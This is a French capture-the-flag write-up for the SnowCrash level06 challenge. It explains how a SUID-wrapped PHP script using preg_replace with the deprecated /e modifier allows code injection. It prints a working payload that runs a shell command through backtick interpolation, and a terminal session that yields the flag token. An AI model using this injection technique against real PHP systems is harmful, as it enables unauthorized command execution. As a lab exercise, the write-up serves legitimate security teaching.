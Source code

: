 # Niveau 06 : Injection de code PHP via le modificateur /e de preg_replace

## Analyse de la vulnérabilité

Après examen des fichiers dans le répertoire personnel de level06, nous trouvons :

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

Le binaire `level06` appartient à l'utilisateur `flag06` et a le bit SUID activé, ce qui signifie qu'il s'exécute avec les privilèges de `flag06`.

En regardant `level06.php`, nous avons trouvé :

```php
#!/usr/bin/php
<?php
// Fonction pour remplacer les points par " x " et les @ par " y"
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
// Fonction pour lire un fichier, effectuer des remplacements complexes et retourner le contenu modifié
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
// Récupère les arguments de la ligne de commande, appelle la fonction x et affiche le résultat
$r = x($argv[1], $argv[2]); print $r;
?>
```

## Comprendre le code PHP

Pour ceux qui ne sont pas familiers avec PHP, voici ce que fait ce code :

1.  **Bases de PHP** : PHP est un langage de script côté serveur couramment utilisé pour le développement web. Le code ci-dessus est encapsulé dans des balises `<?php ?>` qui indiquent du code PHP.

2.  **Définitions de fonctions** :

    -   La fonction `y($m)` prend un paramètre chaîne de caractères et remplace les points par " x " et les symboles @ par " y".
    -   La fonction `x($y, $z)` prend deux paramètres (bien que `$z` ne soit jamais utilisé) :
        -   Elle lit le contenu du fichier spécifié par `$y`.
        -   Effectue une série de remplacements de motifs.
        -   Retourne le contenu modifié.

3.  **Exécution principale** : La ligne `$r = x($argv[1], $argv[2]); print $r;` appelle la fonction `x` avec les arguments de la ligne de commande et affiche le résultat.

## Vulnérabilité : preg_replace avec le modificateur /e

La vulnérabilité clé se trouve dans cette ligne :

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

Décortiquons cela :

-   `preg_replace()` est une fonction PHP qui recherche des motifs dans des chaînes et les remplace.
-   `/(\[x (.*)\])/e` est une expression régulière :
    -   `\[x ` correspond littéralement à "[x ".
    -   `(.*)` capture tous les caractères entre "[x " et "]".
    -   Le modificateur `/e` est critique - il indique à PHP d'évaluer la chaîne de remplacement comme du code PHP *après* substitution.

Le modificateur `/e` dans `preg_replace` évalue la chaîne de remplacement comme du code PHP, ce qui est une fonctionnalité obsolète et dangereuse permettant l'exécution de code à distance.

## Exploitation

1.  Création d'un fichier avec le contenu suivant :

    ```
    [x {${`getflag`}}]
    ```

2.  Lorsque traité par le script PHP, cette charge utile fonctionne comme suit :

    -   Notre motif `[x {${`getflag`}}]` correspond à l'expression régulière.
    -   Le modificateur `/e` fait que PHP évalue `y("{${`getflag`}}")` comme du code.
    -   La syntaxe `${...}` en PHP est l'interpolation de variable.
    -   Les accents graves `` ` `` exécutent des commandes shell et retournent leur sortie.
    -   Donc, `getflag` est exécuté et sa sortie est retournée.

3.  Exécution :

    ```bash
    level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/exploit.txt
    level06@SnowCrash:~$ ./level06 /tmp/exploit.txt
    Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    ```
